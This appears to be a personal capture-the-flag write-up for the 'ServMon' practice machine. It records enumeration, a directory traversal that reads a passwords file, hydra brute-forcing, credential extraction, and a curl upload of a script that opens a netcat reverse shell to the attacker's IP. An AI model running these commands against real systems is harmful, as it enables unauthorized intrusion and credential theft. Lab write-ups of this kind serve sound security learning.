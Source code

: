 * ServMon
** enumeration
   nmap:
*** 21 - ftp

Anonymous login allowed via user 'ftp'. But most commands return 550 access denied
Stupidly didn't descend into the directory structure! There's a Confidential note about a password file

*** 22 - ssh
*** 80 - http
    
NVMS-1000 login page

**** gobuster

seems to be reporting 200 for every query, but I'm recording sizes and will look for anomalies

*** 135 - rpc

~rpcdump.py~ (from impacket) gives 361 endpoints, but not sure what to do with this info    

*** 139 - netbios

samba?

~smbclient -L //$TARGET/ responds but prompts for a password    

*** 5666 - ??

Immediately closes connection    

*** 6699 - ??
    
Holds the connection open briefly and accepts input, but gives no response

*** 8443 - https-alt

Something called NSClient++

**** gobuster
/api/ 403
/metrics/ 403

fuzz /api/?

https://docs.nsclient.org/api/

Seems to be a lot of chatter about default passwords being a problem with NSClient, but none seem to work for me
   
** foothold

NVMS-1000 is vuln to directory traversal, used

~dotdotpwn -h $TARGET -m http -f /Users/Nathan/Desktop/Passwords.txt -sqb~

Given these passwords, I used ~hydra~ to attempt to use them against ftp/ssh

GOT: nadine's ssh creds / user.txt

** escalation

Download winPEASany.exe with powershell:

~(New-Object System.Net.WebClient).DownloadFile($url, $output)~

winPEAS highlights:
 * Permissions: Authenticated Users [AppendData/CreateDirectories])
 * EnableLUA != 1, UAC policies disabled. [+] Any local account can be used for lateral movement.
 * [+] Looking for AutoLogon credentials(T1012)                                                
    Some AutoLogon credentials were found!!                                                   
    DefaultDomainName             :  SERVMON                                                  
    DefaultUserName               :  Nathan
 *   [+] Looking AppCmd.exe()                                                                    
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe                                                                                
    AppCmd.exe was found in C:\WINDOWS\system32\inetsrv\appcmd.exe You should try to se       
arch for credentials 

~reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon'~

Grab the NSClient password

PS C:\Program Files\NSClient++> ./nscp web password --display
Current password: ew2x6SsGTxjRwXOT

Unfortunately, the nsclient rejects passwords except from localhost:
 * use ~chisel~ to forward localhost:8443 to $TARGET:8443

Upload an attack script:
~curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/attack.bat --data-binary 'C:\Temp\nc.exe 10.10.16.42 443 -e cmd.exe'~

Then in console, execute command ~attack~

Got reverse shell with root.

** post-exploitation
